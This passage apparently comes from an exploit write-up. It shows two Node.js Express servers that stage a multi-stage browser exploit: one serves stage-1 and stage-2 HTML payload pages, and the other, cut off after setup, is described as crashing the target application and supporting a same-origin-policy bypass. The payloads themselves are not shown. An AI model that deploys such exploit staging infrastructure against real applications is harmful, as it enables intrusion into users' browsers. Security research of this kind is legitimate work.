 Below the two server used.

```javascript
const express = require('express')
const fs = require('fs')
const path = require('path')

/** 
 * This is the first out of two servers that we need to run in order to make our exploit work.
 * The whole purpose of this is to kick off the first stage of the exploit, that would lead to the second one.
 * Essentially this is serving files.
 */

const starter = express()
var port = 9999

starter.get('/', (req, res) => {
    console.log("Stage 1 starting")
    let filePath = path.join(__dirname, 'public/stage-1.html');
    fs.readFile(filePath, {encoding: 'utf-8'}, function(err,data){
        if (!err) {
            res.writeHead(200, {'Content-Type': 'text/html'});
            res.write(data);
            res.end();
        } else {
            console.log(err);
        }
    });
})

starter.get('/stage-two', (req, res) => {
    console.log("Stage 2 kicking in")
    let filePath = path.join(__dirname, 'public/stage-2.html');
    fs.readFile(filePath, {encoding: 'utf-8'}, function(err,data){
        if (!err) {
            res.writeHead(200, {'Content-Type': 'text/html'});
            res.write(data);
            res.end();
        } else {
            console.log(err);
        }
    });
})

starter.listen(port, () => {
  console.log(`Starter listening on port ${port}`)
})
```


```javascript
/** 
 * This is the second out of two servers that we need to run in order to make our exploit work.
 * The whole purpose of this is to kick off the third stage of the exploit.
 * In addition it has an endpoint that will make crash the entire application.
 * In addition it has a route that serve just for setting the username.
 * This is necessary to achieve a SOP bypass.
 */

const express = require('express')
const crasher = express()
crasher.set('view engine', 'ejs');
var port = 3000
var username = ""
```